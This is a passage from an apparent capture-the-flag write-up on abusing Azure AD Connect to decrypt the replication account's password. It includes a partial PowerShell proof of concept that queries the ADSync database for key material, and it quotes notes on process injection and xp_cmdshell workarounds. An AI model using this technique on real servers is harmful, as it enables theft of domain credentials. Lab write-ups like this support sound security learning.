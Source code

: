 
### Exploit

#### Theory

[This post](https://blog.xpnsec.com/azuread-connect-for-redteam/) does a
really nice walkthrough of how to abuse Azure connect. The idea is that there
is a user that is setup to handle replication of Active Directory to Azure. In
the default case, that’s an account named like MSOL_[somehex]. I’ll see
shortly that’s not the case here.

It turns out mhope is able to connect to the local database and pull the
configuration. I can then decrypt it and get the username and password for the
account that handles replication.

#### Timing

On reviewing the blog post to write this, I see there’s an update:

> **Update 12/04/2020** \- Due to changes in the way which Azure AD Sync now
> stores its keys, access to the service account (ADSync by default) or the
> Credential Manager of the service account is now required to decrypt the
> configuration. One way to work around this using tools such as Cobalt Strike
> is to simply inject into a process running under the ADSync process and
> continue with the above POC. Alternatively we can take advantage of the fact
> that the LocalDB instance is in-fact running as the “ADSync” user, meaning
> that a simple bit of `xp_cmdshell` magic is all we need to resume our
> decryption method. A new POC to leverage this can be found
> [here](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c).

New Azure AD instances are hardened such that only certain accounts can
decrypt the password. The new POC doesn’t work here, and I’ll look at why in
Beyond Root.

#### Practice

I’ll grab the POC code from the blog. I had to change the connection string to
get this to connect (something like [this
example](https://myitworld.azurewebsites.net/2015/12/14/access-sql-server-
integrated-security-different-windows-credentials-powershell/) worked). My
script looked like this:

    
    
    $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
    $client.Open()
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $key_id = $reader.GetInt32(0)
    $instance_id = $reader.GetGuid(1)
    $entropy = $reader.GetGuid(2)
    $reader.Close()
    